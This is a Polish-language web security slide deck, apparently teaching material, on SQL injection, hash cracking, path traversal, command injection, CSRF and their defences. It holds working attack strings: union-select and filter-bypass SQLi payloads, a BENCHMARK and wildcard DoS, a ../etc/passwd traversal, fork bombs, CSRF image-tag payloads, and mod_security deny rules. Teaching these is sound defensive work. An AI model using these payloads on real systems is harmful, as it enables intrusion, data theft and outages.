Czasami taki test może skończyć się niepowodzeniem ze względu na błędy
JS. Może to jednak oznaczać potencjalną podatność na XSS (JS
injection). Obejściem problemu może być:
#+BEGIN_EXAMPLE
www.example.com/showNews.php?type=sport%27%27
#+END_EXAMPLE

** Szukanie podatności - liczba

Gdy parametr jest liczbą:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=5
#+END_EXAMPLE

Sprawdźmy:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=6-1
#+END_EXAMPLE

Można też tak:
#+BEGIN_EXAMPLE
www.example.com/pages/6-1/show
#+END_EXAMPLE

Uwaga – to nie zadziała:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=4+1
#+END_EXAMPLE

Obejście:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=4%2B1
#+END_EXAMPLE

** Znaki specjalne w URL a komentarze SQL

Znaki specjalne w url:

- =+= - zamiana na spacje
- =#= - anchor, nie wysyłane do serwera
- =&= - rozdziela parametry
- =%23= - Zakodowany znak #
- =%0A= - Zakodowana nowa linia 
 
Komentarze w SQL:
- =--=
- =#=
- =/*= 

** Poznanie struktury zapytania
Atakujący musi poznać strukturę części zapytania jakie jest wykonywane
przed fragmentem podatnym na SQLi. Chodzi tutaj głównie o:

- liczbę kolumn
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=5 order by 3 --
www.example.com/showPage.php?id=5 order by 7 --
www.example.com/showPage.php?id=5 order by 12 --
#+END_EXAMPLE

- rodzaj kolumn i użycie danych z nich pochodzących
#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=-1 union select 1,2,3,4,5,6,7,8,9,10 --
#+END_EXAMPLE

** Odkrycie rodzaju bazy danych

#+BEGIN_EXAMPLE
www.example.com/showPage.php?id=-1 union select 1,2,3,4,version(),6,7,8,9,10 --
#+END_EXAMPLE

W podobny sposób można poznać login użytkownika DB (=user=,
=current_user=, =user()=), nazwę schematu (=current_database()=, =database()=)
i serwera (=name=, =instance_name=).

** Pomocne linki
Funkcje i sposób odkrycia tych danych są zależne od bazy
danych. Dostępne są porównania tego typu funkcji dla różnych baz:

- http://pentestmonkey.net/category/cheat-sheet/sql-injection
- http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/
- http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/

W czasie pracy na zapytaniem może przydać się szybki dostęp do różnych
silników baz danych http://sqlzoo.net

** Poznanie struktury bazy

Oracle:

#+BEGIN_SRC sql
-- List tables
 SELECT owner, table_name 
   FROM all_tables;

-- List columns
 SELECT column_name 
   FROM all_tab_columns 
  WHERE table_name = 'foo'
    AND owner = 'bar';
#+END_SRC

MySQL:

#+BEGIN_SRC sql
-- List tables
 SELECT table_schema, table_name
   FROM information_schema.tables;

-- List columns
 SELECT table_name, column_name 
   FROM information_schema.columns 
  WHERE table_name = 'foo'
    AND table_schema = 'bar';
#+END_SRC

** Wykonywanie własnych zapytań
Wiedząc jaka jest struktura bazy danych atakujący może zacząć
zasadniczy atak i rozpocząć pobieranie danych, gdzie z reguły
najcenniejszą są dane o użytkownikach i ich hasłach.

Jeśli hasła użytkowników zapisane są w czystym tekście albo tylko
zahaszowane prostą funkcją (MD5) to w tym momencie atakujący ma już
pełną kontrolę nad aplikacją.

** Odzyskiwanie haseł z hash-y
Mając hashe haseł potrzebujemy poznać hasła na podstawie których
zostały utworzone:

MD5, SHA1 z użyciem GPU: 
http://bvernoux.free.fr/md5/index.php
http://www.elcomsoft.com/lhc.html

Hasła systemowe, bazy danych
http://www.openwall.com/john/
https://hashkiller.co.uk/default.aspx
http://www.md5online.org/

** Hashkiller.co.uk - statystyki

|    | Algorithm               | Total cracked |
|----+-------------------------+---------------|
|  1 | MD5                     | 27,220,696    |
|  2 | SHA1                    | 3,169,684     |
|  3 | MySQL4.1/MySQL5         | 1,365,423     |
|  4 | Double MD5              | 1,150,687     |
|  5 | NTLM                    | 1,127,773     |
|  6 | md5(sha1($pass))        | 436,848       |
|  7 | MD4                     | 254,355       |
|  8 | md5(md5(md5($pass)))    | 188,944       |
|  9 | sha1(md5($pass))        | 120,828       |
| 10 | sha1(sha1($pass))       | 14,725        |
| 11 | sha1(sha1(sha1($pass))) | 3,078         |

** Łamanie hashy za pomocą GPU

#+BEGIN_QUOTE
NVIDIA GeForce 8800 Ultra can calculate more than 200 million hashes
per second

-- https://en.wikipedia.org/wiki/MD5
#+END_QUOTE

Porównajmy dwa alfabety:
- A1 [a-z0-9] => 36 znaków
- A2 [a-zA-Z0-9] => 62 znaki

#+REVEAL: split

|   A1 | Ilość kombinacji | Czas        |   A2 | Ilość kombinacji | Czas            |
|------+------------------+-------------+------+------------------+-----------------|
| 36^1 | 36               | ~ 0s        | 62^1 | 62               | ~ 0s            |
| 36^2 | 1 269            | ~ 0s        | 62^2 | 3 844            | ~ 0s            |
| 36^3 | 46 656           | ~ 0s        | 62^3 | 238 328          | ~ 0s            |
| 36^4 | 1 679 616        | ~ 0s        | 62^4 | 14 776 336       | ~ 0s            |
| 36^5 | 60 466 176       | 0.3s        | 62^5 | 916 132 832      | 4.5s            |
| 36^6 | 2 176 782 336    | 11s         | 62^6 | 56 800 235 584   | 284s            |
| 36^7 | 78364164096      | 391s        | 62^7 | 3.5216146e+12    | 17608s (5h)     |
| 36^8 | 2.8211099e+12    | 14105s (4h) | 62^8 | 2.1834011e+14    | 1091700s (303h) |


#+REVEAL: split

Wszystkie znaki ASCII z podstawowego zakresu => 95 znaków. Maksymalny czas
łamania hasła 8 znakowego: 9214h (rok). 

** Jak nie przechowywać haseł

- plain text
- md5, sha1
- sha256, sha512
- salted passwords

** Jak przechowywać hasła?

- bcrypt 
- PBKDF2

** Łamanie bcrypt?

Cluster 25 Radeonów ma przepustowość na sekundę:
- NTLM - 348 miliardów
- MD5 - 180 miliardów
- SHA1 - 65 miliardy
- bcyprt - 71 tysięcy

** Modyfikowanie danych (stacked queries)

Duża część dokumentacji na temat SQLi pokazuje przykłady gdzie wstrzyknięty
kod dopełnia główne zapytanie ale także dodaje kolejne zapytania, z
reguły modyfikujące dane lub bazę:

#+BEGIN_SRC sql
 SELECT * FROM users WHERE login = 'x'; DROP TABLE users; SELECT '1'
#+END_SRC

Obecnie większość bibliotek do obsługi baz danych nie pozwala by w
ramach zapytania zostały wykonane dodatkowe zapytania a w szczególności o
różnym typie. Stąd ten atak wydaje się być bardziej teoretyczny niż praktyczny

** Blind SQL Injection
Czasami mamy do czynienia z sytuacją, że wynik zapytania nie jest
bezpośrednio wyświetlany w aplikacji ale zależy od niego logika
przetwarzania strony. 

Przykłady:

1. Aplikacja wykonuje zapytanie =SELECT= nie czytając wartości kolumn,
   a jedynie sprawdzając czy zwraca ono jakieś wiersze lub nie. Na tej
   podstawie może np. wyświetlać na wynikowej stronie dedykowany
   komunikat („Masz nieprzeczytane wiadomości”)
2. Aplikacja oczekuje, że zapytanie zwróci dokładnie jeden wiersz i go
   wyświetla, a nie mamy możliwości wpłynięcia na ten wiersz
3. Podatność w jest podzapytaniu przy operatorze =EXISTS/NOT EXISTS=
4. Aplikacja na podstawie zapytania wykonuje określoną akcję (np loguje), ale nie
   zwraca wyników bezpośrednio do widoku

** Blind SQL Injection
Możemy też spotkać przypadek, gdzie zapytanie do którego są przekazane
parametry stanowią część większego zapytania:

#+BEGIN_SRC sql
SELECT * 
  FROM table1
 WHERE id IN ( SELECT id 
                 FROM table2 
                WHERE param='$param')
#+END_SRC

W takiej sytuacji ominięcie problemu składni zapytania po
wstrzyknięciu kodu nie zawsze może być proste czy wykonalne.

** Blind SQL Injection

Wstrzyknięty kod sprowadza się do odpowiedzi na pytanie (Tak/Nie)

#+BEGIN_SRC sql
 SELECT * 
   FROM orders
  WHERE id = 5 
    AND 1 = (CASE WHEN condition THEN 1 else 0 END) limit 1;
#+END_SRC

#+BEGIN_SRC sql
 SELECT count(*) 
   FROM orders
  WHERE status = 'pending'
    AND substring(@@version, 1, 1)=5
#+END_SRC

** Second Order SQL Injection
O ataku *Second Order SQLi* mówimy gdy wartość przechowywana w bazie
danych zostaje użyta do budowy innego zapytania.

Atak następuje w kilku fazach:
- Atakujący dodaje wpis w miejscu które nie jest wrażliwe na SQLi
  (poprawnie obsługuje znaki kontrolne SQL)
- Aplikacja w innym miejscu używa tych danych do budowy kolejnego
  zapytania. Często nie filtruje danych pobieranych z bazy danych,
  traktując je jako bezpieczne

** Second Order SQL Injection - przykład
Atakujący tworzy konto użytkownika o nazwie: 

#+BEGIN_SRC sql
 x' or user_id=user_id --
#+END_SRC

Jeśli aplikacja buduje dowolne zapytanie z wykorzystaniem loginu:

#+BEGIN_SRC sql
 SELECT * 
   FROM orders 
  WHERE user_id='$userLogin‘
#+END_SRC

To atakujący zobaczy więcej niż powinien.

** Porównywanie łańcuchów - MySQL

Jaki będzie wynik?

#+BEGIN_SRC sql
SELECT 'a'  = 'a'   t1, 
       'a'  = 'A'   t2, 
       'a'  = 'a '  t3, 
       'a ' = 'a'   t4,
       'a ' = 'a '  t5,
       ' a' = 'a'   t6,
       'a'  = ' a'  t7,
       ' a' = ' a'  t8, 
       'a'  = ' a ' t9;
#+END_SRC

** Porównywanie łańcuchów - MySQL - odpowiedź

#+BEGIN_EXAMPLE
+----+----+----+----+----+----+----+----+----+
| t1 | t2 | t3 | t4 | t5 | t6 | t7 | t8 | t9 |
+----+----+----+----+----+----+----+----+----+
|  1 |  1 |  1 |  1 |  1 |  0 |  0 |  1 |  0 |
+----+----+----+----+----+----+----+----+----+
#+END_EXAMPLE

** Porównywanie łańcuchów - Oracle

#+BEGIN_SRC sql
SELECT CASE WHEN 'a'  = 'a'   THEN 1 ELSE 0 END t1, 
       CASE WHEN 'a'  = 'A'   THEN 1 ELSE 0 END t2, 
       CASE WHEN 'a'  = 'a '  THEN 1 ELSE 0 END t3, 
       CASE WHEN 'a ' = 'a'   THEN 1 ELSE 0 END t4,
       CASE WHEN 'a ' = 'a '  THEN 1 ELSE 0 END t5,
       CASE WHEN ' a' = 'a'   THEN 1 ELSE 0 END t6,
       CASE WHEN 'a'  = ' a'  THEN 1 ELSE 0 END t7,
       CASE WHEN ' a' = ' a'  THEN 1 ELSE 0 END t8, 
       CASE WHEN 'a'  = ' a ' THEN 1 ELSE 0 END t9
  FROM dual
#+END_SRC

** Porównywanie łańcuchów - Oracle - odpowiedź

#+BEGIN_EXAMPLE
+----+----+----+----+----+----+----+----+----+
| T1 | T2 | T3 | T4 | T5 | T6 | T7 | T8 | T9 |
|----+----+----+----+----+----+----+----+----|
|  1 |  0 |  1 |  1 |  1 |  0 |  0 |  1 |  0 |
+----+----+----+----+----+----+----+----+----+
#+END_EXAMPLE

** Omijanie filtrów
Często programiści piszą swoje własne, "domowe" sposoby zapobiegania
SQLi. Dużą cześć można łatwo obejść:

- ?id=-1/**/union/**/select/**/…
- ?id=-1/*ab*/union/*cd*/select/*ef*/…
- ?id=-1 union … where login = char 77,121,83,81,76)
- ?id=-1 union … where login = concat (char(77), char(121))
- (mysql) ?id=-1 union … where login = 0×414243
  
** Omijanie filtrów - Apache mod_security
#+BEGIN_EXAMPLE

#Prevent SQL injection in cookies
SecFilterSelective COOKIE_VALUES "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300011,rev:1,severity:2,msg:'Generic SQL injection in cookie'"

#Prevent SQL injection in UA
SecFilterSelective HTTP_USER_AGENT "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300012,rev:1,severity:2,msg:'Generic SQL injection in User Agent header'"

# Generic filter to prevent SQL injection attacks
# Understand that all SQL filters are very limited and are very difficult to prevent false postives and negatives.
# Please report false positives/negatives to mike@gotroot.com
SecFilter "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300013,rev:1,severity:2,msg:'Generic SQL injection protection'"
#+END_EXAMPLE
   
** Zapobieganie SQLi
- Używać =PreparedStatements=
- Używać =StoredProcedures=
- Escape-ować dane pochodzące od użytkownika
  
** Pytanie
Czy możemy być pewni co do odporności na SQLi gdy do komunikacji z
bazą danych używamy:

- PreparedStatement
- Hibernate
- Procedur składowanych

** Odpowiedź

- PreparedStatement
#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
PreparedStatement ps = connection.prepareStatement("SELECT * FROM users WHERE userName = '" + userName + "'");
#+END_SRC

#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
PreparedStatement ps = connection.prepareStatement("SELECT * FROM users WHERE userName = ?");
ps.setString(1, userName);
#+END_SRC

#+REVEAL: split

- Hibernate
#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
Query q = session.createQuery("from User u where u.userName ='" +userName "'");
#+END_SRC

#+BEGIN_SRC java
String userName = request.getParameter("userName"); 
Query q = session.createQuery("from User u where u.userName = :userName");
q.setParameter("userName", userName);
#+END_SRC

#+REVEAL: split

- Stored procedure
#+BEGIN_SRC sql
sqlStmt := 'SELECT id FROM users WHERE userName = ''' || p_username || '''';
EXECUTE IMMEDIATE sqlStmt INTO userId;
#+END_SRC

#+BEGIN_SRC sql
sqlStmt := 'SELECT id FROM users WHERE userName = :1';
EXECUTE IMMEDIATE sqlStmt USING p_userName;
#+END_SRC

** SDOS (SQL Denial of Service)

Jeśli wstrzyknięty kod powoduje wykonanie zasobożernego zapytania,
możemy doprowadzić do sytuacji, że baza danych będzie zbyt zajęta
naszymi zapytaniami by przetwarzać te prawdziwe. Ponawianie zapytania
SDOS wzmacnia działanie, chociaż czasami może wystarczyć pojedyncze
zapytanie. SDOS może zostać przeprowadzony w oparciu o:

- rozbudowane zapytanie - wielokrotne połączenia dużych tabel,
  iloczyny kartezjańskie, operator IN dla dużego zbioru, podzapytania, zapytania hierarchiczne

- ataki na wildcard-y

- wykorzystanie funkcji diagnostycznych
#+BEGIN_EXAMPLE
 x' AND BENCHMARK(9999999,BENCHMARK(999999,BENCHMARK(999999,MD5(NOW()))))=0 OR '1'='1
#+END_EXAMPLE

** SQL Wildcards attack
Jednym z typów SDOS jest atak na zapytania które korzystają z
operatora =LIKE=. Często piszemy wyszukiwanie w aplikacjach w ten
sposób:

#+BEGIN_SRC sql
SELECT * FROM news WHERE title LIKE '%Java%'
#+END_SRC

Z reguły takie zapytania wykonują się bardzo szybko, ale użycie
odpowiednio spreparowanych parametrów może sprawić, że to samo
zapytanie będzie wykonywać się kilkadziesiąt razy dłużej konsumując
wszystkie dostępne zasoby.

** SQL Wildecards attack - przykłady

#+BEGIN_EXAMPLE

%_[^!_%/%a?F%_D)_(F%)_%([)({}%){()}£$&N%_)$*£()$*R"_)][%](%[x])%a][$*"£$-9]_%

%64_[^!_%65/%aa?F%64_D)_(F%64)_%36([)({}%33){()}£$&N%55_)$*£()$*R"_)][%55](%66[x])%ba][$*"£$-9]_%54

_[r/a)_ _(r/b)_ _(r-d)_

%n[^n]y[^j]l[^k]d[^l]h[^z]t[^k]b[^q]t[^q][^n]!%

%_[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[! -z]@$!_%

#+END_EXAMPLE

** SQL Wildcards attack - zapobieganie
- do wyszukiwania pełnotekstowego używać indeksów (SOLR) lub baz NoSQL
- walidować parametry, ograniczyć znaki specjalne i operatory
- ograniczyć długość tekstu 
- wprowadzić timeout-y dla zapytań
- monitorować aktywność bazy danych

* Pozostałe ataki
** Listowanie użytkowników
Elementy aplikacji związane z logowaniem, odzyskiwaniem hasła, nazwy
konta itp nie powinny ułatwiać znajdowania nazw istniejących
użytkowników. Błędne logowanie do aplikacji powinno zwrócić komunikat:

*Użytkownik lub hasło nie są prawidłowe*

zamiast

*Podany użytkownik nie istnieje*

** Ukryte zasoby (Forceful browsing)
Możemy być pewni że atakujący (bądź skrypt którego użyje) będzie
szukał ukrytych, potencjalnie ciekawych zasobów jak:
- =/logs/=
- =/version=
- =/phpMyAdmin=
- =/probe=
- =/manager/html=
- =/swagger=
- =/monitoring=
- =/admin=
- =/admin.jsp~=
- =/admin.jsp.bak=

** Wklej.org - przykład 
#+BEGIN_EXAMPLE
http://wklej.org/id/{liczba}/
#+END_EXAMPLE

#+BEGIN_SRC 
error_reporting(E_ALL);
define('API_KEY', 'aa7xxxxx');
define('API_SECRET', '2adxxxxxxxxxxxxxxxxxxxxxxxxxxxxx');
define('API_VERSION', 1);
$SimPayLibs = 'SimPay.class.php';
#+END_SRC

** Plik robots.txt
Plik =robots.tx= wchodzący w skład mechanizmu *Robots Exclusion
Protocol* może być żródłem informacji o ukrytych zasobach. Niezależnie
od niego można sprawdzić adresy takie jak:

- test.przykladowa-strona.pl
- dev.przykladowa-strona.pl
- old.przykladowa-strona.pl
- new.przykladowa-strona.pl
- przykladowa-strona.pl/nowa
- Google: site:przykladowa-strona.pl

** Insecure Direct Object Reference

Przekazywanie do aplikacji identyfikatorów z bazy danych w dodatku
połączone z niewłaściwą kontrolą dostępu może prowadzić do ujawnienia
danych, mimo że np zabezpieczyliśmy kod przed SQLi.

Przykłady:
- http://wklej.org/id/{id}/ - kolejne liczby
- http://collabedit.com/{id} - losowy ciąg znaków [a-z0-9]{5}
- http://codeshare.io/{id} - losowy ciąg znaków [a-zA-Z0-9]{5}
- http://wstaw.org/w/3GVB/ - kolejne znaki  [A-Z0-9]{4}
- http://etxt.pl - kolejne znaki [a-z0-9]{3}
- http://wklej.se/ - kolejne liczby

** Brak walidacji danych

- Średnia ocena :: Serwis daje użytkownikom możliwość głosowania na
                   dany produkt/artystę itp. Oceny są od 1-5,
                   wybierane jako wartości z combobox-a; na podstawie
                   ocen liczona jest średnia i ranking. 

- Ukryte pola :: Użytkownik aplikacji nie ma prawa do modyfikowania
                 pewnych pól, jednakże implementacja formularza
                 zakłada wysyłanie ich do użytkownika jako pola ukryte

** Path Traversal

Prosty atak pozwalający na dostęp do treści, których właściciel raczej
nie miał ochoty nam udostępnić

#+BEGIN_EXAMPLE
www.example.com/showPage.php?p=1.html
#+END_EXAMPLE

Łatwo można wyjść do dowolnego miejsca:
#+BEGIN_EXAMPLE
www.example.com/showPage.php?p=../../../../../../../../etc/passwd
#+END_EXAMPLE

** OS command injection
Kolejny prosty atak, który wykorzystuje lukę spowodowaną przez fakt
uruchamiania komend systemowych wraz z parametrami przekazanymi wraz z
requestem.

Jak dodawać swoje komendy?
- nowa linia (%0A)
- =;=
- =&&=
- =|=

** Fork bomb
Atak typu DoS który można wykonać w ramach *OS command
injection*. Polega on na uruchomieniu kodu, którego jedynym zadaniem
jest tworzenie kopii samego siebie.

- Windows
#+BEGIN_EXAMPLE
%0|%0
#+END_EXAMPLE

- Bash
#+BEGIN_EXAMPLE
:(){ :|:& };:
#+END_EXAMPLE

** Cross Site Request Forgery

*CSRF* (CSRF, XSRF, session riding, one-click attack) to atak w którym
atakujący wymusza w przeglądarce wykonanie request-ów w kontekście
innego użytkownika. W ataku tym nie chodzi o ty by zmieniać treści
stron, lecz by wykorzystać uprawnienia użytkowników zalogowanych do
atakowanej aplikacji. Najczęściej polega on na podrzuceniu
spreparowanych linków lub wstrzyknięcie ich do innych serwisów.

Przykładowe cele ataków:
- zmian danych kontaktowych, hasła itp
- zamknięcie konta
- opublikowanie artykułu na forum

** CSRF - przyczyna

*Cookies*

(jako jedyna metoda autentykacji użytkownika)

** CSRF - scenariusz

#+BEGIN_SRC plantuml :file images/generated-csrf-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App
participant "Aplikacja\nzłego człowieka" as BadApp

Bob -> BadApp : Wrzuca kod wykonujący\nrequest do innej aplikacji
   

John -> App : Pracuje z "dobrą" aplikacją

... Dobry człowiek pozostaje zalogowany ...

John -> BadApp : Klika na link do "złej" aplikacji
activate BadApp
BadApp --> John : Generuje odpowiedź zawierającą\n< img href='http://goodApp.com/deleteAccount' />
deactivate BadApp
John -> John : Przeglądarka wyświetla generuje stronę\ni pobiera wszystkie zasoby
John -> App : GET http://goodApp.com/deleteAccount
activate App
App --> John: 200 OK Account deleted
#+END_SRC

#+CAPTION: Scenario of the CSRF attack
#+ATTR_HTML: :align center
[[./images/generated-csrf-scenario.png]]

** CSRF - zapobieganie

- Sprawdzone metody
  - Krótkie czasy sesji dla ważnych zasobów
  - Dodatkowa prośba o zalogowanie przed wykonaniem ważnej operacji,
    przejściem do trybu administracyjnego itp.
  - CSRF token - generując formularz można dodać do niego ukryte pole zawierające
    losowy tekst lub liczbę, która zostanie potem zweryfikowana z
    wartością przechowywaną w sesji po stronie serwera
  - Wartość weryfikującą można też wpisać w ciasteczku, które w myśl
    "same origin policy" nie jest dostępne dla skryptów z innych
    strony

#+REVEAL: split

- Mity i półśrodki (co najwyżej utrudniają atak niż mu zapobiegają)
  - Użycie metod innych niż =GET=
  - Sprawdzanie nagłówka =Referer=
  - Używanie nagłówków HTTP specyficznych dla aplikacji

** On Site Request Forgery (OSRF)

Technika bardzo podobna do CSRF z tym że kod zmuszający przeglądarkę
do wykonania nieautoryzowanej akcji zostaje umieszczony wewnątrz
podatnego systemu.

#+BEGIN_SRC html
<img src="http://www.example.com/admin/addUser.php?u=admin2&p=pass" />
#+END_SRC

** ... Injection

Rodzina ataków Injection jest bardzo liczna:
- HTTP Header Injection
- CSS Injection
- Ldap Injection
- XPath Injection
- HQL Injection
- SMTP Injection
- CSS Injection
- CQL Injection
- itd itp

Można założyć że jeśli aplikacja używa danych wprost od użytkownika w
jakimkolwiek języku interpretowanym czy skrypcie to będzie podatna na
atak typu *Injection*.

** Ataki słownikowe

W internecie dostępne są słowniki które mogę znacząco poprawić
skuteczność ataków brute-force:
- wszystkie wyrazy danego języka
- typowe hasła
- hasła które wyciekły z innych serwisów - użytkownicy często używają
  tego samego hasła w wielu miejscach

** Obrona przed atakami słownikowymi
- Opóźnienie :: Dodanie nawet krótkiego opóźnienia podczas błędnego
                logowania znacząco redukuje skuteczność metod
                słownikowych

- Odpowiednie komunikaty :: Elementy aplikacji związane z logowaniem,
     odzyskiwaniem hasła, nazwy konta itp nie powinny ułatwiać
     znajdowania nazw istniejących użytkowników. Błędne logowanie do
     aplikacji powinno zwrócić komunikat: *Użytkownik lub hasło nie są
     prawidłowe* zamiast *Podany użytkownik nie istnieje*

- Tymczasowe blokowanie konta :: Zablokowanie konta (także tymczasowe)
     po określonej ilości nieudanych prób w jednostce czasu

- Logowanie i blokowanie adresów :: Jeśli dany adres IP wysyła zbyt dużo nieudanych prób logowania może to być sygnał, że ktoś skanuje z niego naszą aplikację

- Captcha :: Bardzo dobre zabezpieczenie przed atakami słownikowymi na hasło użytkownika, jednakże może prowadzić do ułatwienia znalezienia istniejących użytkowników

** Strony błędów
- Default-owe strony błędów z reguły pokazują dużo informacji
  przydatnych dla programisty
- Domyślna strony błędów może być świetnym źródłem informacji o naszej
  aplikacji, użytych technologiach, wersji serwera, błędach przy
  walidacji danych a czasami nawet haseł do baz danych(!!!)
- Bardzo często spotkamy tam stacktrace albo kawałek źródła (php, asp,
  jsp) który spowodował wystąpienie błędu
- Pozostawienie domyślnych stron błędów jest bardzo niebezpieczne
- Strona błędu która wyświetla ładny komunikat ale w komentarzu HTML
  przechowuje dane o błędzie, nie jest rozwiązaniem problemu
- Stałe frazy z komunikatów błędów mogą zostać użyte jako zapytania w Google hackingu

** Wymuszenie błędów na serwerze
- =400 Bad Request=
#+BEGIN_EXAMPLE
curl -ivs --raw -X POST -H "Content-Length: x" http://www.server.com
#+END_EXAMPLE

- =404 Not Found=
#+BEGIN_EXAMPLE
curl -ivs --raw http://www.server.com/thisPageDoesntExist
#+END_EXAMPLE

- =403 Forbidden (405 Method Not Allowed)=

#+BEGIN_EXAMPLE
curl -ivs --raw -X DELETE http://www.server.com/someResource
#+END_EXAMPLE

#+REVEAL: split

- =408 Request Timeout=
#+BEGIN_EXAMPLE
telnet www.server.com 80
GET / HTTP/1.1
(wait some time)
#+END_EXAMPLE

- =500 Internal Server Error=
#+BEGIN_EXAMPLE
curl -ivs --raw -X GET http://www.server.com?q=something&page=nonNumber
#+END_EXAMPLE

#+BEGIN_EXAMPLE
curl  -ivs --raw http://www.server.com/%
#+END_EXAMPLE

** Komunikaty o błędach - PHP
#+BEGIN_EXAMPLE
Warning: mysql_connect() [function.mysql-connect]: Access denied for user
'xxxxx'@'localhost' (using password: YES) in 
/home/users/xxxxx/public_html/xxxxx.com.pl/inc/mysql_connect.php on line 2

Nie mozna polaczyc z serwerem mysql!
#+END_EXAMPLE

#+BEGIN_EXAMPLE
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[HY000]
[2003] Can't connect to MySQL server on 'xxx.pl' (113)' in
/home/users/xxx/private_html/framework/Db/PDO.php:39 Stack trace: #0
/home/users/xxx/private_html/framework/Db/PDO.php(39): 
PDO->__construct('mysql:host=xxx', 'admin_xxx', 'xyz123') #1
/home/users/xxx/private_html/framework/Controller/Application.php(65): 
Db_PDO->__construct() #2 
/home/users/xxx/private_html/xxx/Controller/Base.php(61):
Controller_Application->__construct(Object(Controller_Front)) #3
/home/users/xxx/private_html/framework/Controller/Front.php(93):
Controller_Base->__construct(Object(Controller_Front)) #4
/home/users/xxx/public_html/xxx/index.php(61): Controller_Front->run() #5
{main} thrown in /home/users/xxx/private_html/framework/Db/PDO.php on line 39
#+END_EXAMPLE

** Strona o bezpieczeństwie webaplikacji

Jedna ze stron poświęconych bezpieczeństwu webaplikacji zaprezentowała to:

#+BEGIN_EXAMPLE
Warning: Table './xxxxx/sessions' is marked as crashed and should be repaired query: SELECT u.*, s.* FROM users u INNER JOIN sessions s ON u.uid = s.uid WHERE s.sid = '4f21e1xxxxxxxxxxxxxxxxxxxxxxxxxx' in /home/xxxxx/public_html/includes/database.mysqli.inc on line 1xx

Warning: session_start(): Cannot send session cache limiter - headers already sent (output started at /home/xxxxx/public_html/includes/database.mysqli.inc:134) in /home/xxxxx/public_html/includes/bootstrap.inc on line 1xxx

Warning: Cannot modify header information - headers already sent by (output started at /home/xxxxx/public_html/includes/database.mysqli.inc:1xx) in /home/xxxxx/public_html/sites/all/libraries/bad-behavior/bad-behavior/screener.inc.php on line xxx
#+END_EXAMPLE

** Strona błędu - Tomcat
#+BEGIN_EXAMPLE
HTTP Status 500 - An exception occurred processing JSP page /xxx.jsp 
  at line 50

type Exception report

message An exception occurred processing JSP page /xxx.jsp at line 50

description The server encountered an internal error that prevented it from 
  fulfilling this request.

exception

org.apache.jasper.JasperException: An exception occurred processing JSP
  page /xxx.jsp at line 50

47:  <div class="a">
48:  <div class="b">c</div>
49:  <div class="d">
50:    <a href="<%=path %>/e.view?id=<%=x.getId() %>">x</a>&nbsp;|&nbsp;
51:    <a href="<%=path %>/e.view?id=1&xyzId=<%=x.getId() %>">zz1</a> |
52:    <a href="<%=path %>/e.view?id=2&xyzId=<%=x.getId() %>">zz2</a> |
53:    <a href="<%=path %>/e.view?id=3&xyzId=<%=x.getId() %>">zz3</a> |
#+END_EXAMPLE

** Biblioteki Access Control
- Spring Security (http://projects.spring.io/spring-security/) :: authentication,
     authorization, security mechanisms (SF, CJ, CSRF etc.), OAUTH
     
- Apache Shiro (http://shiro.apache.org/) :: authentication,
     authorization, cryptography, session management

- jGuard (http://jguard.xwiki.com/) :: authorization, authentication,
     based on JAAS

- OACC (http://oaccframework.org/) :: authorization
   
** Biblioteki "bezpieczeństwa"

Biblioteki dostarczające mechanizmy pomagające redukować ryzyko
związane z atakami na aplikacji webowe:
- HDIV (http://www.hdiv.org) :: Aktywnie rozwijana, pokrywa OWASP Top
     10, integruje się z kilkoma dużymi frameworkami (Spring, Struts,
     Grails, JSF itp)
- ESAPI (https://code.google.com/p/owasp-esapi-java/) :: Biblioteka
     dostarczana przez OWASP, jednakże jest rozwój został wstrzymany

* CAPTCHA
** Nazwa
#+BEGIN_EXAMPLE
C ompletely 
A utomated 
P ublic 
T uring test to tell 
C omputers and 
H umans 
A part 
#+END_EXAMPLE

** Zastosowanie
CAPTCHA-e mają szerokie zastosowanie przy poprawie różnych aspektów bezpieczeństwa aplikacji. Pomagają zapobiegać:
- atakom słownikom przy formularzach logowania i odzyskiwania hasła
- spamowaniu na blogach i forach
- wykorzystaniu naszych zasobów przez skrypty czy backend-y innych aplikacji (formularze ubezpieczeniowe, usługi typu whois, bramki sms)
- limitowanie ruchu w naszych usługach (za duża ilość maili wysłana z jednego adresu)
- automatom które chciałyby wpłynąć na sondy, głosowania, wybory
- robotom które chcą się rejestrować na forach, tworzyć maile itp
  
** Typy
- Tekstowe :: Przepisz tekst z obrazka lub zdjęcia
- Zadanie :: Rozwiąż proste równanie (12-7=?) lub powiedz jaka pora roku jest po zimie
- Audio :: wpisz tekst z pliku dźwiękowego
- Graficzne :: Wskaż kota na obrazku, ustaw suwak filtra graficznego w
               miejscu gdzie obraz jest najmniej zniekształcony
- Video :: Przepisz animowany tekst
- Skryptowe :: Działają w przeglądarce, proszą o wykonanie prostej akcji (przeciągnij kwadrat na zielone pole), jednocześnie analizując ruch myszy

** Ataki na CAPTCHA-e
